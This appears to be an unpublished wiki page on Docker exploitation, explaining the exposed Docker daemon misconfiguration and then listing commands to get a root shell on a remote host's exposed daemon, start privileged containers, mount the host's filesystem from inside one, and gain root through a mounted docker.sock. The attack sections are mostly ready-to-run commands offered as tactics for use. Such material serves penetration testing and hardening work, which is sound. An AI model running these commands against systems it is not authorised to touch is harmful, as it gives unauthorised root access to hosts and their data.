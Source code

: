 ```yaml
---
title: Docker Exploitation
description: Tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application
published: false
date: 2021-01-016T19:14:00.643Z
tags:
editor: markdown
dateCreated: 2021-01-16T16:51:39.351Z
---
```


# Docker Exploitation

Docker Client Documentation: https://docs.docker.com

## Intent

This page will discuss different tactics, techniques, and procedures (TTPs) observed and tested in the wild on the exploitation of the Docker application  

## Background

A virtual machine: This is a machine within a machine. VirtualBox, VMware, HyperV and other platforms are used to make a machine within a machine. Hard drives, operating systems, ram allocations and all.

A container: This shares the kernel of the operating system to run basically alongside of the host processes. i.e., ‘Docker run a webserver but don’t allocate 20 gbs of space and just pipe the logs from the server into my log directory in my home directory’.

### Docker Socket Vulnerability

When you’re installing Docker you’re actually installing a daemon socket onto your system that talks to the kernel over a tcp:// call. By default, this is setup with either ports 2375 (unencrypted) or 2376 (tls encrypted traffic). This is otherwise known as the docker socket. This socket handles all the API requests that a Docker client makes to the machine. For example, it will send to your internal socket the command `docker ps -a` and show you all of the running containers and subsequent information. At this point this is only going to be accessible to the local machine.

So, let’s say a web developer Bob decides that he want’s to run his applications in a cloud environment and have everything running on docker. Well, you could just ssh into the box install docker and install the apps to run in their own containers. But to streamline product releases he decides to expose the docker daemon to the internet so he can run commands on it from his home office. (docker -H tcp://<some IP>:2375 …)  This is where the vulnerability is…Tenable calls it ‘Docker Daemon Publicly Accessible’ (or something like that). I call it opening a shell up to the internet for anyone to connect to as root…Let’s break it down.

Figure 1:

Running a container on a local machine:

`docker run -it ubuntu:latest`

Running a container with elevated privileges on your local machine:

`docker run -it –privileged ubuntu:latest`

Running a container on someone else’s machine with elevated privileges:

`docker -H <someone else’s IP>:<port> run -it –privileged ubuntu:latest`

There it is…that is the vulnerability. A gross misconfiguration of the Docker daemon that exposes it to the internet (or intranet of a company) if put into a cloud environment or allowed egress. Also with the  `--privileged` flag you’re given root access to the container which can be used in a plethora of privilege escalation attacks.

## Exposed Docker Socket exploitation


### Getting a shell

```
docker run -H tcp://<some_ip>:<port> -it --entrypoint="/bin/sh" alpine
```
Simply creates a container onto a host exposing the docker daemon over TCP.

### Getting a privileged shell


```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```
Add `--privileged` tag to the above script to allow for all capabilities to be enabled.

A list of which can be found here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities

### Mount Host File System To Containers

*** !!! WARNING !!! If you do not know what you are doing you can cause damage to the host machine. Use Caution! ***  


First run a privileged container running alpine.

**Remote:**
```
docker run -H tcp://<some_ip>:<port> -it --privileged --entrypoint="/bin/sh" alpine
```

**Local:**
```
docker run -it --privileged --entrypoint="/bin/sh" alpine
```

Next you'll be greeted with the shell that's running in alpine that is running as the `root (#)` user.

**Create a folder to mount host file system**
```
# mkdir /media/host-mnt
```

**Check for drive names**
```
# df -a
```

*Examples: /dev/sda1, /dev/nvme0, /dev/hdd0*

**Mount the Host FS**

```
# mount -a /dev/<drive> /media/host-mnt && cd /media/host-mnt && ls -lash
```


This should (pardoning any errors with mount or resources being busy) give you read write access to the host's filesystem.

### Docker container within Docker running Docker

Docker Hub Src: https://hub.docker.com/_/docker

Recently Docker released an image on dockerhub that is Docker running itself.

(As weird as that sounds...)

This leads to an interesting privesc vulnerability.

Say you're on a box but don't have access to root and see that you can create unpriviledged containers. (Research this...)

You can create your own docker daemon install that runs on the same socket as the host.

```
$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock docker:latest
```

This opens up a docker container that has docker installed that can create images using the same docker daemon (or socket if exploiting remote).

Once you create the container you should be running as root and can create privileged containers from within an **unpriviledged** container. (idk why people think this is okay.)

```
# docker run -it --privileged alpine
```

Now you have a root shell running in a container that has all of the capabilities enabled as referenced here: https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities
